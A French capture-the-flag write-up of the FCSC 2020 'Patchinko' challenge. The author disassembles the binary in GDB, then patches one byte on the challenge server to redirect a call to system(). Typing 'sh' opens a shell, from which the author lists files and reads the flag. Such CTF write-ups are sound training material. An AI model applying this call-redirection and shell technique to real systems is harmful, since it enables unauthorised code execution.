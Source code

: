 <center><h1>FCSC 2020 - Patchinko Writeup</h1></center>

<br>
<br>
<br>

<img src="https://img.onii.wtf/i/rd6a0.png">

<br>

Très bien, nous nous retrouvons avec un beau challenge de pwn.

Nous remarquons déjà dans l'énoncé la présence d'une commande qui nous permet de nous connecter à un serveur et un binaire "patchinko.bin"
<br>

```
mizaru@DESKTOP-23T8VRF:/mnt/c/Users/sMizaru/Downloads$ file patchinko.bin                                               
patchinko.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=ea28c1aa273a99a5c9323b062e3277734bbed0be, not stripped
```

Après avoir téléchargé le binaire, on tombe sur un binaire dynamiquement lié, non strippé. Essayons dans un premier temps de voir le retour d'un strings sur celui-ci (je vais vous mettre que les éléments intéressants) :

```
echo Hello! Welcome to Patchinko Gambling Machine.                                                                      
Is this your first time here? [y/n]                                                                                     
>>>                                                                                                                     
Welcome back then!                                                                                                      
Welcome among us! What is your name?                                                                                    
>>>                                                                                                                     
Nice to meet you %s!                                                                                                    
Guess my number
```

Testons donc de lancer notre binaire ! 

```
mizaru@DESKTOP-23T8VRF:/mnt/c/Users/sMizaru/Downloads$ ./patchinko.bin                                                  
Hello! Welcome to Patchinko Gambling Machine.                                                                           
Is this your first time here? [y/n]                                                                                     
>>> y                                                                                                                   
Welcome among us! What is your name?                                                                                    
>>> Mizaru                                                                                                              
Nice to meet you Mizaru!                                                                                                
Guess my number                                                                                                         
3147151366091887426                                                                                                     AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                  
Close but no! It was 3147151366091887426. Try again!
```
<br>

Très bien, on y voit déjà plus clair sur le fonctionnement de notre binaire, plongeons plus en profondeur et allons l'analyser de plus prêt.

<br>

Je vais utiliser GDB pour ce challenge, car pas besoin d'utiliser IDA pour voir comment il fonctionne.
Desassemblons dans un premier temps la fonction "main" (je vais encore une fois vous montrer les éléments les plus intéressant) :

```
 0x0000000000400853 <+45>:    call   0x4006d0 <system@plt>
 0x000000000040087c <+86>:    call   0x4006f0 <fgets@plt>
 0x00000000004008e2 <+188>:   call   0x4006f0 <fgets@plt>
```

Trois call très intéressant, dont un call vers la fonction system().

<br>

Observons ça de plus prêt et plaçons un breakpoint avant l'appel vers cette fameuse fonction system() : 
```
pwndbg> b*main+38                                                                                                       
Breakpoint 1 at 0x40084c 
```
Et voici après execution du programme ce que nous retourne GDB:
```
 0x40084c <main+38>    lea    rdi, [rip + 0x205]                                                                       
 ► 0x400853 <main+45>    call   system@plt <0x4006d0>                                                                           
 command: 0x400a58 ◂— 'echo Hello! Welcome to Patchinko Gambling Machine.'
 ```

 Nous voyons déjà plus clair sur ce que contient system, qui n'est autre que `system('echo Hello! Welcome to Patchinko Gambling Machine.')`.

 Tournons nous maintenant vers le serveur qui a été donné dans l'énoncé.
 <br>
 <br>

 ```
 mizaru@DESKTOP-23T8VRF:/mnt/c/Users/sMizaru/Downloads$ nc challenges1.france-cybersecurity-challenge.fr 4009            
 ================================                                                                                        
 == Patchinko Gambling Machine ==                                                                                        
 ================================                                                                                                              
                                                                                             
 We present you the new version of our Patchinko Gambling Machine!                                                       
 This is a game of chance: you need to guess a 64-bit random number.                                                     
 As we have been told that it is quite hard, we help you.                                                                
 Before the machine executes its code, you can patch *one* byte of its binary.                                           
 Choose wisely!                                                                                                                                        

 At which position do you want to modify (base 16)?                                                                      
 >>>    
 ```

 On remarque déjà un assez gros hint dans le serveur (`you can patch *one* byte of its binary`)
 Ce qui veut dire que le serveur attend qu'on lui entre un byte à modifier, tentons donc de récupérer les bytes de notre fgets et notre system:

```
pwndbg> x/5x 0x0000000000400853                                                                                         
0x400853 <main+45>:     0xe8    0x78    0xfe    0xff    0xff
```
```
pwndbg> x/5b 0x000000000040087c                                                                                         
0x40087c <main+86>:     0xe8    0x6f    0xfe    0xff    0xff  
```

<br>

Très bien, nous voyons qu'en comparant les deux nous n'avons qu'un byte qui change, tentons donc d'entrer le byte de system à changer
```
At which position do you want to modify (base 16)?                                                                      
>>> 78                                                                                                                  
Which byte value do you want to write there (base 16)?                                                                  
>>> 6F                                                                                                                  
== Let's go!                                                                                                            
sh                                                                                                                      
ls   

```

Très bien, aucun shell n'a pop, tentons donc de modifier le byte de fgets() à la place (ce qui est plus logique)
```
At which position do you want to modify (base 16)?                                                                      
>>> 6F                                                                                                                  
Which byte value do you want to write there (base 16)?                                                                  
>>> 78                                                                                                                  
== Let's go!                                                                                                            
Hello! Welcome to Patchinko Gambling Machine.                                                                           
Is this your first time here? [y/n]                                                                                     
>>> ls                                                                                                                  
Is this your first time here? [y/n]                                                                                     
>>> y                                                                                                                   
Welcome among us! What is your name?                                                                                    
>>> ls                                                                                                                  
Nice to meet you ls!                                                                                                    
Guess my number                                                                                                         
-2779294116679768049                                                                                                    
ls                                                                                                                      
Close but no! It was -2779294116679768049. Try again!                                                                   
^C                                                                                                                      
mizaru@DESKTOP-23T8VRF:/mnt/c/Users/sMizaru/Downloads$ 
```

Rien ne change, tentons donc de changer nos bytes : 

```
At which position do you want to modify (base 16)?                                                                      
>>> 889                                                                                                                 
Which byte value do you want to write there (base 16)?                                                                  
>>> 43                                                                                                                  
== Let's go!                                                                                                            
Hello! Welcome to Patchinko Gambling Machine.                                                                           
Is this your first time here? [y/n]                                                                                     
>>> sh                                                                                                                  
ls                                                                                                                      
flag                                                                                                                    
patchinko.bin                                                                                                           
patchinko.py                                                                                                            
cat flag                                                                                                                
FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}
```

Et voilà, Patchinko est donc résolu ! 


Chall plutôt simpliste comparé à Pépin. Un peu de binary patching ne fait jamais de mal x)






